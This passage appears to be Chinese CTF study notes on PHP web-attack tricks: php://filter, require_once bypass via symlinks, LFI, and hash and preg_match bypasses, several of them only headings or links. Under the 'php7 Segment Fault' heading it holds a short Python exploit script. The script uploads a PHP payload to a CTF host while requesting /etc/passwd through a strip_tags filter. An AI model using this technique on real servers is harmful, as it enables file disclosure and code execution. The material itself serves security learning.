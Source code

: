 ### 5. php://filter中许许多多的过滤器

https://www.php.net/manual/zh/filters.php

### 6. 绕过require_once的限制

推荐链接：https://www.anquanke.com/post/id/213235

once原理：

```
php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中，当已经require_once('flag.php')，已经include的文件不可以再require_once。
```

通过符号链接进行多层迭代。

### 7. LFI本地文件包含

### 8. php7 Segment Fault

php7 使用特殊的会留下来

```
import requests
from io import BytesIO
url="http://f325d633-efa0-4a8c-a61d-90fc70c9ea1d.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
payload="<?php phpinfo();?>"
files={
    "file":BytesIO(payload.encode())
}
r=requests.post(url=url,files=files,allow_redirects=False)

print(r.text)

```



## (五)、php特性

### 1. 散列函数绕过

#### 0x01 指针绕过

使用场景: php反序列化中的`R`参数

#### 0x02 数组绕过

#### 0x03 强碰撞

https://blog.csdn.net/qq_19980431/article/details/83018232

### 2. preg_match绕过
